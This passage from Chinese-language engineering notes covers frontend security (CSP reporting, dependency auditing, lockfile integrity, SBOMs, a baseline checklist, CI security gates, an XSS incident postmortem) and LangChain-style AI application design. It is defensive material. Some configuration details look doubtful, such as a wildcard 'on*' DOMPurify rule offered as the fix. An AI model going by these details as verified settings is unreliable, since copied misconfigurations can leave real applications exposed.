    "violated-directive": "script-src",
    "effective-directive": "script-src",
    "original-policy": "script-src 'nonce-abc' 'strict-dynamic'; report-uri /csp-report",
    "disposition": "report",  // 或 "enforce"
    "blocked-uri": "inline",  // 或具体 URL
    "line-number": 42,
    "column-number": 10,
    "source-file": "https://app.example.com/page",
    "script-sample": "alert(1);" // 违规代码片段(部分浏览器支持)
  }
}
```

**自动化分析管道**：将报告写入 ClickHouse/Elasticsearch，Grafana 看板按 `violated-directive`、`blocked-uri`、`disposition` 聚合，设置告警阈值（如新增 `eval` 违规 > 0 立即告警）。

---

## 9.6 供应链安全 —— 依赖审计、锁文件完整性与 SBOM 合规交付

### 9.6.1 依赖审计工具链对比：从 CVE 到恶意行为检测

现代前端项目依赖数千个包，“信任链过长”是供应链攻击的核心成因。单一的 `npm audit` 只能覆盖已知 CVE，无法发现恶意维护者植入、依赖混淆、未公开漏洞。来源：《20230418_042.md》

> "依赖审计工具链对比：npm audit 基础审计、pnpm audit 性能优势、Snyk 深度漏洞库、Socket 恶意行为检测（网络/文件/环境变量访问）。"

**工具链能力矩阵**：

| 工具 | 核心能力 | 检测维度 | CI 集成方式 | 适用阶段 |
| :--- | :--- | :--- | :--- | :--- |
| **npm audit / pnpm audit** | 官方 Advisory 数据库 | 已知 CVE、维护状态 | `npm audit --audit-level=high` 退出码阻断 | 基础门禁、零成本 |
| **Snyk** | 商业漏洞情报 + 可达性分析 | CVE + 可达性 (是否真调用漏洞代码) + 许可证合规 | `snyk test --severity-threshold=high` / GitHub App PR 检查 | 企业级、需精准修复建议 |
| **Socket** | **静态分析包行为** (安装脚本、网络请求、文件读取、环境变量访问、Shell 执行) | **恶意行为/供应链攻击/原型污染/混淆代码** | `npx @socketsecurity/cli@latest scan` / GitHub Action `socketsecurity/scan-action` | **必选**，防御未知/零日供应链投毒 |
| **OSSF Scorecard** | 项目健康度评分 | 维护活跃度、签名发布、CI 配置、依赖更新及时性 | GitHub Action `ossf/scorecard-action` | 选型评估、供应商准入 |

**Socket 恶意行为检测原理（数据流图）**：



**这张图展示了**：Socket 不关心“这是否是已知 CVE”，而是关心“这个包在运行时会做什么”。这是防御 event-stream / ua-parser-js / colors.js 类恶意发版的关键手段。其核心原理基于静态 AST 分析，无需执行代码即可识别恶意行为模式（参考 Socket 官方技术博客白皮书《Deep Package Inspection: Detecting Supply Chain Attacks Without Execution》）。

### 9.6.2 Lockfile 完整性机制：防篡改的基石

`package-lock.json` (npm) / `pnpm-lock.yaml` / `yarn.lock` 不仅锁定版本，更通过 integrity 字段 (Subresource Integrity, SRI) 锁定内容哈希。来源：《20230418_042.md》

**Lockfile 关键字段解析**：

```json
// package-lock.json 片段
{
  "name": "my-app",
  "lockfileVersion": 3,
  "requires": true,
  "packages": {
    "node_modules/lodash": {
      "version": "4.17.21",
      "resolved": "https://registry.npmjs.org/lodash/-/lodash-4.17.21.tgz",
      "integrity": "sha512-xxxYYYYY...",  // 关键：SHA512 哈希
      "license": "MIT"
    }
  }
}
```

**CI 中的强制一致性策略（流程图）**：



**这张图展示了**：`--frozen-lockfile` 确保 CI 环境与开发环境、生产环境安装的字节级完全一致，防止注册表被劫持、镜像源投毒、维护者覆盖发布同版本号不同内容。

**CI 配置示例**：

```yaml
# .github/workflows/ci.yml
jobs:
  install-and-audit:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      # 1. 冻结锁文件安装：任何 lockfile 与 package.json 不一致、或网络下载哈希不匹配，直接报错
      - name: Install with frozen lockfile
        run: pnpm install --frozen-lockfile  # npm ci / yarn install --frozen-lockfile
      
      # 2. 审计门禁
      - name: Audit dependencies
        run: |
          pnpm audit --audit-level=high
          npx @socketsecurity/cli@latest scan --fail-on=critical,high
      
      # 3. 生成 SBOM
      - name: Generate SBOM
        run: npx @cyclonedx/bom -o bom.xml
      
      # 4. 上传 SBOM 到 GitHub Dependency Graph (可选)
      - name: Upload SBOM
        uses: github/dependency-submission-action@v3
        with:
          sbom-path: bom.xml
```

### 9.6.3 SBOM 生成与合规交付：软件物料清单标准化

**CycloneDX 格式 SBOM 核心结构**：

```xml
<!-- bom.xml 简化示例 -->
<?xml version="1.0" encoding="UTF-8"?>
<bom xmlns="http://cyclonedx.org/schema/bom/1.5" serialNumber="urn:uuid:xxx" version="1">
  <metadata>
    <timestamp>2024-01-15T10:30:00Z</timestamp>
    <tools>
      <tool><name>CycloneDX/bom</name><version>1.0.0</version></tool>
    </tools>
    <component type="application">
      <name>my-frontend-app</name>
      <version>1.2.3</version>
    </component>
  </metadata>
  <components>
    <component type="library">
      <name>lodash</name>
      <version>4.17.21</version>
      <purl>pkg:npm/lodash@4.17.21</purl>
      <hashes>
        <hash alg="SHA-512">xxxYYYYY...</hash>
      </hashes>
      <licenses><license><id>MIT</id></license></licenses>
      <externalReferences>
        <reference type="website" url="https://lodash.com/"/>
        <reference type="issue-tracker" url="https://github.com/lodash/lodash/issues"/>
      </externalReferences>
    </component>
    <!-- 递归包含所有传递依赖 -->
  </components>
  <dependencies>
    <dependency ref="pkg:npm/my-frontend-app@1.2.3">
      <dependency ref="pkg:npm/lodash@4.17.21"/>
      <!-- 依赖图谱 -->
    </dependency>
  </dependencies>
</bom>
```

**SBOM 在漏洞溯源中的作用（流程图）**：



当 Log4j/Log4Shell 类 0day 爆发时，拥有标准化 SBOM 的组织可在分钟级完成影响排查：1. `grype sbom:bom.xml` (Grype 扫描器直接扫描 SBOM，无需访问源码/节点模块)；2. 结合 `purl` (Package URL) 精准定位受影响组件在 Monorepo 中的分布；3. 自动生成修复 PR（依赖升级/override）。

---

## 9.7 安全工程化落地 —— 基线清单、应急 SOP 与 SDL 集成

### 9.7.1 基线清单核心项：将最佳实践固化为强制规范

来源：《20230418_042.md》

> "基线清单核心项：CSP 强制、Trusted Types 开启、HTTPS/HSTS/COOP/COEP 隔离策略、依赖扫描门禁、敏感信息扫描、Source Map 发布控制。ESLint/Prettier/Commitlint/Husky 规范化工具链集成：安全规则自动检查、提交拦截、CI 门禁阻断。"

**前端安全基线清单 (Checklist)**：

| 领域 | 检查项 | 工具/实现 | 门禁等级 |
| :--- | :--- | :--- | :--- |
| **网络传输** | 全站 HTTPS + HSTS Preload | Nginx/Cloudflare 配置、hstspreload.org 提交 | P0 (阻断发布) |
| **隔离策略** | `Cross-Origin-Opener-Policy: same-origin`<br>`Cross-Origin-Embedder-Policy: require-corp`<br>`Cross-Origin-Resource-Policy: same-origin` | 响应头中间件 | P0 (启用共享内存/高精度计时器前提) |
| **脚本执行** | CSP 3 Enforce 模式 (`script-src nonce + strict-dynamic`) | 中间件 + 构建插件 | P0 |
| **DOM 安全** | Trusted Types 强制开启 (`trustedTypes: 'allow-duplicates'` 仅开发环境) | `<meta http-equiv="trusted-types" content="default">` + Header | P0 |
| **Cookie 安全** | `Secure; SameSite=Lax; HttpOnly` (会话 Cookie) | 后端设置 / 前端 `document.cookie` 校验 | P0 |
| **依赖安全** | `pnpm audit --audit-level=high` + Socket 扫描通过 | CI 步骤 | P0 |
| **敏感信息** | 无 AK/SK/Token/私钥 提交历史/构建产物 | `gitleaks` / `trufflehog` / `eslint-plugin-security` | P0 |
| **Source Map** | 生产环境**不**上传公开 CDR，仅上传至错误监控平台 (Sentry/Fundebug) | 构建脚本区分 `process.env.NODE_ENV` | P1 |
| **点击劫持** | `X-Frame-Options: DENY` / `frame-ancestors 'none'` | CSP / 响应头 | P1 |
| **MIME 嗅探** | `X-Content-Type-Options: nosniff` | 响应头 | P1 |

**这份清单的核心价值**：将分散的最佳实践固化为可执行、可度量、可自动化的强制规范。每一项都对应具体的工具实现与门禁等级，确保安全要求不依赖人工记忆，而是嵌入工程流水线。参考标准：OWASP ASVS (Application Security Verification Standard) 4.0 Level 1/2 与 Google Web 安全最佳实践。

### 9.7.2 工具链集成：左移

将安全检查前移到开发时 (IDE/Pre-commit) -> 提交时 -> CI 构建时，而非事后扫描。来源：《20230418_042.md》

**ESLint 安全规则集成**：

```javascript
// .eslintrc.cjs
module.exports = {
  plugins: ['security', '@typescript-eslint'],
  rules: {
    // 检测 eval、new Function、非字面量正则等危险模式
    'security/detect-eval-with-expression': 'error',
    'security/detect-non-literal-regexp': 'error',
    'security/detect-unsafe-regex': 'error',
    'security/detect-object-injection': 'warn', // 动态属性访问可能原型污染
    
    // TypeScript 严格模式防注入
    '@typescript-eslint/no-unsafe-assignment': 'error',
    '@typescript-eslint/no-unsafe-call': 'error',
    '@typescript-eslint/no-unsafe-member-access': 'error',
    
    // 禁止浮动 Promise (未捕获的 reject 可能泄露敏感错误堆栈)
    '@typescript-eslint/no-floating-promises': 'error',
  }
};
```

**Husky + Commitlint + Gitleaks Pre-commit 钩子（流程图）**：



**Pre-commit 脚本示例**：

```bash
# .husky/pre-commit
#!/usr/bin/env sh
. "$(dirname -- "$0")/_/husky.sh"

# 1. 代码风格与安全静态检查
npx lint-staged

# 2. 密钥扫描 (快速模式，仅扫暂存区)
npx gitleaks protect --staged --verbose --redact

# 3. 提交信息规范 (便于审计追溯)
npx commitlint --edit "$1"
```

**CI 门禁阻断策略**：

```yaml
# .github/workflows/security-gate.yml
jobs:
  security-gate:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0 # Gitleaks 需要完整历史
      
      - name: Full Secret Scan
        uses: gitleaks/gitleaks-action@v2
        env:
          GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
      
      - name: Dependency Audit (High+)
        run: pnpm audit --audit-level=high
      
      - name: Socket Malicious Behavior Scan
        uses: socketsecurity/scan-action@v1
        with:
          fail-on: critical,high
      
      - name: Build & CSP/TT Verification
        run: |
          pnpm build
          # 可选：使用 puppeteer 启动无头浏览器验证 CSP/TT Header 存在且生效
          # node scripts/verify-csp-tt.js
```

### 9.7.3 应急响应 SOP：从发现到复盘的标准化闭环

来源：《20230418_042.md》

> "应急响应 SOP：P0/P1/P2 分级标准、确认→阻断→溯源→修复→复盘五阶段、WAF 临时规则、回滚预案、复盘报告模板（5 Why 根因分析）。"

**漏洞分级标准 (参考 CVSS 简化版)**：

| 级别 | 定义 | 示例 | 响应时限 (SLA) |
| :--- | :--- | :--- | :--- |
| **P0 (Critical)** | 可大规模窃取用户数据/接管账号/命令执行，无需用户交互 | 存储型 XSS、RCE、SQLi、认证绕过、供应链恶意包已执行 | **1 小时内**阻断，4 小时内修复上线 |
| **P1 (High)** | 需用户交互/特定条件触发，或影响范围有限 | 反射型 XSS、CSRF (核心功能)、IDOR、敏感信息泄露 | **4 小时内**阻断，24 小时内修复 |
| **P2 (Medium)** | 信息泄露、弱配置、低危逻辑漏洞 | Source Map 泄露、缺少安全 Header、弱密码策略 | **1 周内**修复，纳入迭代计划 |

**五阶段响应流程 (SOP)（流程图）**：



**复盘报告模板 (5 Why 示例)**：

```markdown
# 安全事件复盘报告 - INC-20240115-001 (P0 存储型 XSS)

## 事件概述
- **时间**: 2024-01-15 14:30 - 16:45
- **影响**: 管理后台评论模块存储型 XSS，可窃取管理员 Cookie
- **根因**: 富文本清洗配置缺失 `onerror` 事件处理器属性白名单控制

## 5 Why 根因分析
1. **Why 1**: 为什么恶意脚本执行了？ -> `img` 标签 `onerror` 属性未被 DOMPurify 剥离。
2. **Why 2**: 为什么 `onerror` 未被剥离？ -> DOMPurify 配置 `ALLOWED_ATTR` 包含 `onerror` 或未显式 `FORBID_ATTR: ['on*']`。
3. **Why 3**: 为什么配置允许 `on*` 属性？ -> 历史业务需求“支持自定义交互属性”，开发者配置 `ALLOWED_ATTR: ['*']` 或遗漏事件属性前缀禁用。
4. **Why 4**: 为什么代码审查未发现？ -> 安全审查清单缺项“富文本清洗策略审查”；评审者非安全专家，依赖“DOMPurify 默认安全”假设。
5. **Why 5**: 为什么依赖默认安全假设？ -> 团队缺乏“防御深度”培训，未建立“清洗库配置即代码、需评审测试”规范。

## 修复与验证
- **修复**: `FORBID_ATTR: ['on*', 'style', 'href', 'src' (非白名单协议)]`，单测覆盖 20+ XSS Payload。
- **验证**: 灰度 10% 无违规 CSP/TT 报告，渗透测试复测通过。

## 防止复发措施 (Action Items)
- [ ] 基线清单新增：`DOMPurify 配置必须显式 FORBID_ATTR: ['on*']` (Owner: 安全组, Due: 1周)
- [ ] ESLint 新增规则：检测 `createPolicy` / `DOMPurify.sanitize` 调用缺少 `FORBID_ATTR` (Owner: 基建组, Due: 2周)
- [ ] 季度安全培训新增“富文本安全配置”专题 (Owner: HR/技术委员会, Due: 下季度)
```

---

## 9.8 AI 原生应用架构 —— 从模型调用到智能系统工程

### 9.8.1 范式转变：LLM 作为操作系统内核

传统软件工程中，代码是确定性的逻辑执行单元；AI 原生应用中，大模型 (LLM) 成为核心推理引擎/决策中枢，代码退化为“胶水层”与“工具提供者”。来源：《20230418_105.md》

> "范式转变：LLM 作为操作系统内核，对比传统软件工程与 AI 原生开发差异，确立 LLM 从‘聊天机器人’升级为‘推理引擎/决策中枢’的核心地位，理解‘模型即服务’向‘模型即内核’的架构跃迁。"

**架构对比 (方法演进图)**：

```mermaid
graph TD
    subgraph Traditional [传统软件架构]
        T1[业务逻辑代码] --> T2[确定性执行]
        T2 --> T3[数据库/外部API]
        T3 --> T4[返回结果]
    end
    
    subgraph AI_Native [AI 原生架构]
        A1[用户意图/自然语言] --> A2[LLM 内核<br/>(推理/规划/决策)]
        A2 --> A3{需要工具?}
        A3 -->|是| A4[调用 Tool/Function/RAG]
        A4 --> A5[环境反馈/工具结果]
        A5 --> A2
        A3 -->|否| A6[直接生成回答/代码/计划]
        A2 --> A7[Memory 读写<br/>(长期状态)]
    end
    
    style A2 fill:#e1bee7,stroke:#7b1fa2,stroke-width:2px
```

**核心差异**：

| 维度 | 传统软件 | AI 原生应用 |
| :--- | :--- | :--- |
| **核心执行单元** | 确定性代码 (if/else/loop) | **概率性模型推理** (LLM) |
| **控制流** | 代码显式编写 | **模型隐式规划** (Chain/CoT) |
| **状态管理** | 数据库/缓存/Session | **Context Window + 外部 Memory** |
| **扩展方式** | 写新代码/微服务 | **注册新 Tool / 微调 / RAG 索引更新** |
| **不确定性来源** | 并发/网络/外部依赖 | **模型幻觉/推理错误/Token 概率分布** |
| **可观测性** | Log/Metric/Trace (确定性) | **Trace/Span + 评测指标 (概率性)** |

### 9.8.2 核心抽象层：Chain、Agent、Memory 三元组

LangChain/LangGraph 确立的三大核心抽象，构成了 AI 原生应用的“标准库”。来源：《20230418_105.md》

> "核心抽象层：Chain、Agent 与 Memory 的解耦设计，深度解析 LangChain 核心组件设计哲学：Chain 定义确定性流程，Agent 引入非确定性规划循环，Memory 解决上下文窗口与长期状态的持久化问题，三者协作构成应用骨架。"

#### 1. Chain：确定性流程编排 (类比：管道/流水线)

**定义**：预先定义好的、固定步骤序列。输入 -> 步骤1 -> 步骤2 ... -> 输出。无模型自主决策，模型仅作为各步骤的“处理函数”。

```typescript
// 概念代码：Chain 结构 (TypeScript 风格)
interface Step<Input, Output> {
  name: string;
  execute: (input: Input) => Promise<Output>;
  shouldTerminate?: (output: Output) => boolean;
}

class Chain<Input, Output> {
  private steps: Step<any, any>[];
  
  constructor(steps: Step<any, any>[]) {
    this.steps = steps;
  }
  
  async run(input: Input): Promise<Output> {
    let context: any = input;
    for (const step of this.steps) {
      context = await step.execute(context);
      if (step.shouldTerminate?.(context)) break;
    }
    return context as Output;
  }
}

// 典型 Chain: 文档问答 RAG Chain
const ragChain = new Chain([
  { name: "query_rewrite", execute: rewriteQuery },      // LLM: 查询改写
  { name: "retrieve", execute: vectorStore.similaritySearch }, // Tool: 向量检索
  { name: "rerank", execute: crossEncoder.rerank },      // Tool: 重排序
  { name: "generate", execute: llm.generate },           // LLM: 基于上下文生成
  { name: "parse", execute: jsonParser.parse }           // 代码: 结构化输出
]);
```

**适用场景**：流程固定、可预测、需高吞吐低延迟的任务（如标准化 RAG、数据清洗管线、表单填充）。

#### 2. Agent：非确定性规划循环 (类比：操作系统进程调度器)

**定义**：模型在循环中自主决定下一步动作，直到达成目标或达到迭代上限。

```typescript
// 概念代码：Agent 核心循环 (ReAct 范式)
interface Tool {
  name: string;
  description: string;
  run: (input: string) => Promise<string>;
}

class Agent {
  constructor(
    private llm: LLM,
    private tools: Map<string, Tool>,
    private memory: Memory,
    private maxIterations = 10
  ) {}
  
  async run(task: string): Promise<string> {
    let scratchpad = `Task: ${task}\n`;
    
    for (let i = 0; i < this.maxIterations; i++) {
      // 1. LLM 推理: Thought + Action + Action Input
      const prompt = this.buildPrompt(scratchpad, this.memory.load());
      const response = await this.llm.generate(prompt);
      
      const { thought, actionName, actionInput } = this.parseResponse(response);
      scratchpad += `Thought: ${thought}\nAction: ${actionName}\nAction Input: ${actionInput}\n`;
      
      // 2. 执行工具
      if (actionName === "Finish") return actionInput;
      
      const tool = this.tools.get(actionName);
      let observation: string;
      if (!tool) {
        observation = `Error: Unknown tool ${actionName}`;
      } else {
        try {
          observation = await tool.run(actionInput);
        } catch (e) {
          observation = `Tool Error: ${e.message}`;
        }
      }
      
      scratchpad += `Observation: ${observation}\n`;
      this.memory.saveStep(thought, actionName, actionInput, observation);
    }
    
    return "Max iterations reached, task incomplete.";
  }
}
```

**关键差异**：Chain 是编译时确定拓扑；Agent 是运行时动态构建执行图。

#### 3. Memory：长期状态持久化 (类比：文件系统/数据库)

**定义**：解决 LLM 上下文窗口有限、无状态的核心组件。分层设计见 9.11 节。

```typescript
// 概念接口
interface Memory {
  load(query?: string): string;                    // 读取相关记忆注入上下文
  saveStep(thought: string, action: string, input: string, observation: string): void; // 持久化交互步骤
  saveSummary(summary: string): void;              // 定期压缩存储
}
```

**三者协作架构（架构图）**：



---

## 9.9 提示工程体系化 —— 从玄学咒语到结构化编程

### 9.9.1 提示词即代码：模版化、版本化、参数化

将提示词从业务代码字符串中剥离，纳入版本控制、参数化渲染、动态少样本选择、A/B 测试的工程化管理体系。来源：《20230418_105.md》

> "引入 PromptTemplate 与 ExampleSelector 机制，实现提示词与业务逻辑解耦、动态少样本检索、A/B 测试版本控制，落地‘提示词即配置/代码’的工程规范。"

**PromptTemplate 标准化结构 (类比：函数签名 + 模版字符串)**：

```python
from langchain_core.prompts import PromptTemplate, FewShotPromptTemplate
from langchain_core.example_selectors import SemanticSimilarityExampleSelector
from langchain_community.vectorstores import Chroma
from langchain_openai import OpenAIEmbeddings

# 1. 基础指令模版 (版本化管理: prompts/v1.2.0/rag_qa.yaml)
BASE_INSTRUCTION = """
你是一个严谨的技术问答助手。请严格基于提供的上下文回答问题。
如果上下文不包含答案，请明确回复“根据提供的资料无法回答”。
回答必须引用来源文档编号 [doc1][doc2]。
"""

# 2. 少样本示例池 (存储在向量数据库/JSON 文件，支持语义检索)
EXAMPLES = [
    {"question": "如何配置 CSP nonce?", "context": "...", "answer": "根据提供的资料... [doc1]"},
    {"question": "Trusted Types 如何防御 DOM XSS?", "context": "...", "answer": "根据提供的资料... [doc2]"},
    # ... 数百条高质量示例
]

# 3. 语义相似度示例选择器 (动态少样本)
example_selector = SemanticSimilarityExampleSelector.from_examples(
    EXAMPLES,
    OpenAIEmbeddings(),
    Chroma,
    k=3  # 检索最相关的 3 个示例
)

# 4. 组装 FewShotPromptTemplate
few_shot_prompt = FewShotPromptTemplate(
    example_selector=example_selector,
    example_prompt=PromptTemplate(
        input_variables=["question", "context", "answer"],
        template="问题: {question}\n上下文: {context}\n回答: {answer}\n---\n"
    ),
    prefix=BASE_INSTRUCTION,
    suffix="问题: {question}\n上下文: {context}\n回答: ",
    input_variables=["question", "context"]
)

# 5. 运行时渲染 (参数化)
final_prompt = few_shot_prompt.format(question=user_q, context=retrieved_docs)
# 此时 final_prompt 包含：指令 + 动态检索的 3 个相关示例 + 当前任务
```

**版本化与 A/B 测试**：

```yaml
# prompts/rag_qa/v1.3.0.yaml (Git 管理)
version: "1.3.0"
description: "增加代码示例引用规范，优化拒答话术"
template: |
  你是一个严谨的技术问答助手...
  # 新增规则
  代码示例必须包含语言标识 ```typescript ...
examples_ref: "examples/rag_qa_v2.json" # 示例池版本
ab_test_group: "treatment" # 或 "control"
```

**这套体系展示了**：提示词不再是“硬编码字符串”，而是有版本、有依赖（示例池）、可参数化、可回滚、可灰度的软件工程制品。

### 9.9.2 结构化输出与类型安全：OutputParser 与 Pydantic 契约

LLM 输出非结构化文本，下游代码解析极其脆弱。结构化输出将“自然语言生成”转化为“类型安全对象构造”。来源：《20230418_105.md》

> "解决 LLM 非结构化输出导致的下游解析脆弱问题，详解 JsonOutputParser、PydanticOutputParser 及修复重试机制，实现‘自然语言输入 -> 类型安全对象输出’的编程契约。"

**PydanticOutputParser 核心机制 (伪代码)**：

```python
from pydantic import BaseModel, Field, ValidationError
from langchain.output_parsers import PydanticOutputParser
from langchain_core.prompts import PromptTemplate

# 1. 定义输出契约 (即“类型签名”)
class SecurityAuditResult(BaseModel):
    vulnerability_type: str = Field(description="漏洞类型: XSS/CSRF/供应链/配置/逻辑")
    severity: str = Field(description="严重等级: P0/P1/P2", pattern="^P[0-2]$")
    location: str = Field(description="文件路径:行号")
    evidence: str = Field(description="触发证据代码片段")
    fix_suggestion: str = Field(description="修复建议")
    cwe_id: Optional[str] = Field(default=None, description="CWE 编号")

# 2. 创建解析器 (自动生成格式指令注入 Prompt)
parser = PydanticOutputParser(pydantic_object=SecurityAuditResult)

# 3. Prompt 注入格式指令
prompt = PromptTemplate(
    template="分析以下代码片段的安全风险，输出 JSON 格式:\n{format_instructions}\n代码:\n{code}",
    input_variables=["code"],
    partial_variables={"format_instructions": parser.get_format_instructions()}
)

# 4. 执行与自动修复重试
from langchain.output_parsers import OutputFixingParser
from langchain_openai import ChatOpenAI

llm = ChatOpenAI(model="gpt-4o-mini", temperature=0)
fixing_parser = OutputFixingParser.from_llm(parser=parser, llm=llm, max_retries=3)

# 5. 链式调用
chain = prompt | llm | fixing_parser

# 运行时：自动处理格式错误、字段缺失、类型不匹配 -> 让 LLM 自我修正 -> 最终得到类型安全对象
result: SecurityAuditResult = chain.invoke({"code": user_code_snippet})
# result 是 SecurityAuditResult 实例，拥有完整 IDE 类型提示
```

**修复重试机制流程图**：

